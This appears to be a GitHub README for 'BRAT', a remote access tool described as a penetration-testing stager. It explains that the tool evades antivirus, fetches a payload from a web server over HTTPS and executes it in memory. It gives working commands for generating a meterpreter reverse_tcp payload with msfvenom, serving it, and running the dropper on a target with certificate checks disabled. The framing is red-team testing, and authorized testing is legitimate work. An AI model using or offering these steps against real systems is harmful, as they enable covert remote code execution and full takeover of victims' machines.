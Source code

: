 BRAT
=====

A remote access tool for penetration/red team tests. Hosts no malicious code so is not flagged by AV. Useful for physical compromise of a host, as an SE payload, or as an initial stager/dropper.

### Installing

Pre-compiled windows binaries are available in /bin. To build from source you will need Curl and its required libraries. The provided binaries are compiled against the full Curl library available for Windows here https://curl.haxx.se/windows/. Due to this, they are larger than necessary.

Compile scripts are provided to use a starting point.

### Usage

The tool, once executed, makes an HTTPS GET request to a provided web server. The web server hosts the payload you wish to run. The binary loads this payload into memory and then executes it (NX is disabled on the binary). 

Any web server running HTTPS will suffice. A simple HTTPs web server using python is provided in /web-server. You will need to generate a certificate: 

```openssl req -new -x509 -keyout yourpemfile.pem -out yourpemfile.pem -days 365 -nodes ```

In /web-server/html generate your desired payload:

```msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=4444 -f raw > payload.txt```

Start the web server:

```python3  web-server/web.py```

Configure necessary handler/listener for the payload.

Then execute the binary on the target machine. The binary takes two command line options. The first being the webserver/payload and the second 0 or 1. 0 to disable TLS certificate verification and 1 (or any non-zero number) to enable: 

```./a.exe https://your-web-server/payload.txt 0```

### TODO

Build binaries against custom Curl

There is a version which does not use Curl so it is much smaller, only utilizes OpenSSL. Will upload that too.
